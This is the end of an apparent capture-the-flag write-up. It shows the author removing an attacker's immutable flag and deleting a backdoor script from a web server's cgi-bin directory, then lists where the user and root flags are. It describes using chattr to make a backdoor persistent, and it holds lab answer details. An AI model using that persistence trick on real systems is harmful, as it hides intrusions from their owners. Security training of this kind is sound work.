root@ubuntu:/# lsattr -d /usr/lib/cgi-bin
```

```
----i---------e----- /usr/lib/cgi-bin
```

The directory has the **immutable flag** (`i`) set via `chattr`. This prevents any modifications to its contents — including deletions — even by root. The attacker used this to make their backdoor persistent.

We remove the immutable flag and delete the file:

```bash
chattr -i /usr/lib/cgi-bin/
rm /usr/lib/cgi-bin/5UP3r53Cr37.py
```

The backdoor is gone and the server is clean.

---

## Flags

| Flag       | Location              |
| ---------- | --------------------- |
| `user.txt` | `/home/jack/user.txt` |
| `root.txt` | `/root/root.txt`      |

---

This room does a great job of chaining subtle vulnerabilities together — none of the individual steps are overwhelming, but you need to connect the dots between them. The TLS decryption step in particular is a great practical exercise in understanding how traffic analysis works when you have the server's private key.
